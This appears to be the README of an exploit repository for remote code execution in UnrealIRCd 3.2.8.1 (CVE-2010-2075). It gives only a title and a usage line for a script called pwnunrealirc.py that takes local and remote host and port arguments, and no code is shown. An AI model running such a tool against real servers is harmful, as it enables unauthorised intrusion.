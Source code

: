 # UnrealIRCd-3.2.8.1-RCE
cve-2010-2075 

Usage: python pwnunrealirc.py \<lhost\> \<lport\> \<rhost\> \<rport\>
